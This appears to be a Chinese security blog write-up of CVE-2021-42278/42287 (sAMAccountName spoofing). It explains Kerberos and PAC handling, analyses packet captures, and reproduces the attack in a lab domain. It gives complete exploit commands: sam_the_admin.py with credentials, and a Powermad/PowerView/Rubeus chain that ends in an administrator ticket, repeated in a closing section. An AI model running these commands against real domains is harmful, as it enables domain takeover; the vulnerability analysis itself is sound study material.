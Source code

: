 ```yaml
---
title: CVE-2021-42287_域提权漏洞分析
description: CVE-2021-42287_域提权漏洞分析
date: 2020-09-09
image: https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220118141506204.png
categories:
    - CVE
    - 漏洞
---
```




# CVE-2021-42287

## 0x01 Kerberos认证过程

~~~shell
1.用户向KDC发起AS_REQ,请求凭据是用户hash加密的时间戳，KDC使用用户hash进行解密，如果结果正确返回用krbtgt hash加密的TGT票据
2.用户凭借TGT票据向KDC发起针对特定服务的TGS_REQ请求，KDC使用krbtgt hash进行解密，如果结果正确，就返回用服务hash 加密的TGS票据
3.用户拿着TGS票据去请求服务，服务使用自己的hash解密TGS票据。如果解密正确，就允许用户访问。

上述流程中解决了是谁发起请求的问题，却没有解决有没有权限的问题，于是引入了pac的概念，在第一步中返回的TGT带有pac信息，pac包含用户sid、所在组等，后续通过pac对用户进行判断有没有权限访问该服务。
~~~



## 0x02 分析

简单描述一下逻辑，在普通域机器中，使用s4u2self代替administrator向域控dc申请访问cifs服务的st票据，但是根据申请中的pac来看，当前机器账户是没有权限的，所以TGS必须重新生成PAC结构，才能构成一个合法的高权限的ST。

### CVE-2021-42278

Windows域内机器账户以 **$** 结尾（也就是常见隐藏账户），但是DC没有对创建的机器账户名称做检查，也就是说就算在有一个域控机器名为 **DC$** 的情况下，依旧可以请求让AS签发一个机器名为DC的、不以\$结尾的TGT。 (其实修改的是SamAccountName属性)

关于SamAccountName属性：

> SAM-Account-Name 用于支持运行早期版本操作系统的客户端和服务器的登录名，例如 Windows NT 4.0、Windows 95、Windows 98 和 LAN Manager。实际上是以「Domain\LogonName 」形式命名。

### CVE-2021-42287

结合上述漏洞，当使用由CVE-2021-42278获取到的TGT并通过S4U2self以域管身份请求域控服务的ST时，**请求ST的账户并没有被KDC找到，KDC会自动在尾部添加$并再次寻找**，也就是在TGT中的请求账户为DC，但是KDC寻找SamAccountName属性并没有找到该机器账户，于是自动在账户后面添加 **$** 再次寻找，寻找的账户名就变成了`DC$`，再次寻找也就找到了域控，并以域控的密钥加密了ST返回，至此获取了一个`高权限的ST`。



## 0x03 复现过程

域：doge.com

域控：ad.doge.com 

域管：administrator

普通域用户：test

### 1. 工具复现

Exp: https://github.com/WazeHell/sam-the-admin.git

Payload: `python3 sam_the_admin.py "doge.com/test:Hello123\!" -dc-ip 192.168.197.138  -shell` 

![image-20220118141506204](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220118141506204.png)

### 2. 手动复现

用到Powerspolit和Rubeus

1. 创建机器用户work

   ~~~shell
   Set-ExecutionPolicy Bypass -Scope Process
   Import-Module .\Powermad.ps1
   New-MachineAccount -MachineAccount work -Domain doge.com  -Verbose
   ~~~

   ![image-20220120095108327](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220120095108327.png)

2. 清除SPN

~~~shell
#清除spn，如果不清除，修改samAccountName的时候会尝试修改域控的SPN，导致失败
setspn -T doge.com -Q */*
Import-Module .\PowerView.ps1
Set-DomainObject "CN=work,CN=Computers,DC=doge,DC=com" -Clear 'serviceprincipalname' -Verbose
~~~

![image-20220120104743755](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220120104743755.png)

3. 重设机器名为域控名

   ```bash
   Set-MachineAccountAttribute -MachineAccount work -Value "ad" -Attribute samaccountname -Verbose
   ```



4. 获取TGT

   ~~~shell
   ./Rubeus.exe asktgt /user:ad /password:Test123 /domian:doge.com /dc:ad.doge.com /nowrap
   ~~~

   ![image-20220120111003789](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220120111003789.png)

5. 将机器用户名重置为原来的用户名

   ~~~shell
   Set-MachineAccountAttribute -MachineAccount work -Value "work" -Attribute samaccountname -Verbose
   ~~~

6. 通过S4U2Self获取ST

   ~~~shell
   ./Rubeus.exe s4u /self /impersonateuser:"administrator" /altservice:"cifs/ad.doge.com" /dc:"ad.doge.com" /ptt /ticket:[Base64 TGT]
   ~~~
   



## 0x04 流量分析

第四步中，获取TGT，对应的是AS_REQ和AS_REP阶段，

![image-20220121093151837](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121093151837.png)

首先查看AS_REQ的字段结构，其中

~~~shell
PVNO：表示的是Kerberos协议的版本，这里代表使用Kerberos V5
msg-type：消息类型
padata：Pre-authentication Data，预身份认证。
PA-DATA PA-ENC-TIMESTAMP：使用用户hash加密的时间戳。
PA-DATA PA-PAC-REQUEST：用于验证用户是否有权限访问某服务，这里为开启状态（include-pac: True）
~~~

![image-20220121093940163](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121093940163.png)

接着查看req-body，其中CNameString是修改后的ad

~~~shell
kdc-options：请求生成票据的标志位
cname：进行身份验证的账户名，这里是我们修改后的,为DC
sname：被请求服务的名字
etype：加密类型
~~~



![image-20220121094324283](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121094324283.png)

之后是AS_REP，此时已经获得了一个TGT，至此流程还是正常的。

![image-20220121101431060](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121101431060.png)



接下来是TGS_REQ阶段，查看tgs-req数据包中的padata，其分为两个结构，一个是PA-TGS-REQ，另一个是PA-FOR-USER。

PA-TGS-REQ用于下一步认证使用的会话密钥，通过`session-key`作为密钥加密时间戳，用户名等信息。

在`S4U2Self`协议扩展中，Service代表用户请求一个`TGS Ticket`，KDC通过用户名和域名来识别用户，或者还有一种方式是通过证书来识别用户，如果通过用户名和域名来识别用户的话，Service会使用自己的TGT并添加一个新的padata，就是`PA-FOR-USER`结构，由于使用S4U2Self请求cifs服务，所以这里也存在`PA-FOR-USER`结构

![image-20220121105241414](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121105241414.png)

可以查看`PA-FOR-USER`的结构，是代`Administrator`的身份请求到cifs服务

![image-20220121105643439](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121105643439.png)

这里传递的TGT是修改后的机器账户名`ad`，申请tgt后该机器账户消失，TGS找不到账户，所以自动使用ad$的身份去创建服务票据。

最后查看TGS_REP中的pac部分，发现UserRID是500，也就是与administrator对应的值，至此获取了一个`高权限的ST`。

![PAC_LOGON_INFO](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/4416f63d-7cb0-460a-a544-ab2cf2cfab20.png)



## 0x05 Commond

~~~shell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount work -Domain doge.com  -Verbose


setspn -T doge.com -Q */*
Import-Module .\PowerView.ps1
Set-DomainObject "CN=work,CN=Computers,DC=doge,DC=com" -Clear 'serviceprincipalname' -Verbose
Set-MachineAccountAttribute -MachineAccount work -Value "ad" -Attribute samaccountname -Verbose
./Rubeus.exe asktgt /user:ad /password:Test123 /domian:doge.com /dc:ad.doge.com /nowrap
Set-MachineAccountAttribute -MachineAccount work -Value "work" -Attribute samaccountname -Verbose
./Rubeus.exe s4u /self /impersonateuser:"administrator" /altservice:"cifs/ad.doge.com" /dc:"ad.doge.com" /ptt /ticket:
# 创建机器账户work
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount work -Domain doge.com  -Verbose
#清除spn，如果不清除，修改samAccountName的时候会尝试修改域控的SPN，导致失败
setspn -T doge.com -Q */*
Import-Module .\PowerView.ps1
Set-DomainObject "CN=work,CN=Computers,DC=doge,DC=com" -Clear 'serviceprincipalname' -Verbose
#将机器用户名修改为域控机器名，不带$
Set-MachineAccountAttribute -MachineAccount work -Value "ad" -Attribute samaccountname -Verbose
#申请tgt
./Rubeus.exe asktgt /user:ad /password:Test123 /domian:doge.com /dc:ad.doge.com /nowrap
#将机器用户名重置为原来的用户名
Set-MachineAccountAttribute -MachineAccount work -Value "work" -Attribute samaccountname -Verbose
#通过S4U2Self获取st
./Rubeus.exe s4u /self /impersonateuser:"administrator" /altservice:"cifs/ad.doge.com" /dc:"ad.doge.com" /ptt /ticket:[Base64 TGT]
~~~






